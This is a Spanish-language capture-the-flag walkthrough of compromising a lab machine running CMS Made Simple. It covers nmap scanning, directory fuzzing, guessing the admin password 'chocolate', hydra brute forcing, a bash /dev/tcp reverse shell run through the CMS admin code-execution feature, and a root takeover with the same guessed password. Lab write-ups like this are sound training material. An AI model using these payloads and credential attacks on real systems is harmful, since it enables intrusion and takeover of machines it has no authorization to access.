



- Tags: #cmsMadeSimple #hydra #fuerzaBruta 
______
comenzamos la maquina escaneando la IP con nmap.

```shell
nmap -p- --open -sS --min-rate 5000 -n -Pn 172.17.0.2 -oG allport
```

para después escanear los puertos reportados como abiertos con la finalidad de conocer la versión y servicio de dichos puertos.

```shell
nmap -p <puertos_Abiertos> <direccion_ip> -sCV -oN target
```

obtenemos lo siguiente.
___

___
tenemos el puerto 80 (http) y 22 (ssh) abiertos, por lo que ahora veremos que encontramos en la pagina web.
______

______
tenemos un apache2 recien instalado, por lo que aplicaremos fuzzing para ver que directorios tenemos.
____

____
no encontramos nada que nos pueda servir por lo que investigaremos el código fuente para ver que encontramos.
____

___
tenemos lo que parece ser una ruta /cmsms, probemos en la url.
____

______
tenemos otra web la cual, investiguemos el entorno y veamos que encontramos.
_____

____
obtenemos la versión de CMS, si buscamos vulnerabilidades la mayoría tiene como requisito estar autenticado en la web, por lo que debe de haber un panel de login.

apliquemos fuzzing y veamos que nos reporta.
_____

____
encontramos el panel de login, podemos acceder y probar credenciales por defecto.
______

_____
probando credenciales como admin:admin nos denegaba la entrada, pero recordé un patrón muy importante y es que esta maquina fue creada por el pinguino de mario y tras haber realizado varias maquina del anteriormente mencionado, existe un patrón conocido y es que casi todas sus contraseña son chocolate por lo que no podía faltar probar admin:chocolate.
______

______
no podía creer que había funcionado.

también existe otra forma de obtener la credencial, podemos aplicar fuerza bruta con hydra al panel de login, usando BurpSuite para capturar la petición y poder extraer los valores necesarios para poder aplicar la fuerza bruta.

la datos son:

1) ruta donde se encuentra el panel de login
2) los valores que componen el panel de login
3) el error que arroja el panel de login cuando las credenciales son incorrectas.
_____

_____
y de esta forma obtenemos las credenciales, ahora podemos recurrir a las vulnerabilidades registradas para la versión del CMS y ver que logramos.

yo puede explotar un RCE siguiendo los pasos que me dio un fichero .txt al buscar con searchsploit.
______

_____
aunque es de una versión anterior funciono perfectamente, aquí su contenido.
_____

______
nos dice que la vulnerabilidad se encuentra en panel de administrador, en el apartado de extensiones.
____

_____
si accedemos ahí encontraremos un apartado que nos permite ejecutar código.
____

_____
podemos borrar su contenido para agregar el siguiente payload.

```shell
exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.56.1/4444 0>&1'");
```

se configura según tu IP y puerto, una vez configurado debemos de darle al botón de run para que se ejecute el código, de esta forma podremos ganar acceso a la maquina.

también existe otra forma de hacerlo y podemos encontrar la referencia en la siguiente pagina.

web: https://packetstormsecurity.com/files/177241/CMS-Made-Simple-2.2.19-2.2.21-Remote-Code-Execution.html

ya que sabemos como explotar la vulnerabilidad podemos seguir con la post-explotación.

accedemos a la maquina y aplicamos el tratamiento de la tty y procedemos a realizar reconocimiento del sistema.

tenemos un usuario cms, también tenemos acceso a una base de datos.
_____

______
para pivotar al usuario root podemos utilizar un script del pinguino de mario que nos permite realizar un ataque de fuerza bruta a los usuarios del sistema.

pero como ya conté al inicio de este reporte, mario tiene un patrón para sus contraseñas por lo que si usamos chocolate como contraseña para root podremos convertirnos en root con éxito  
____

____


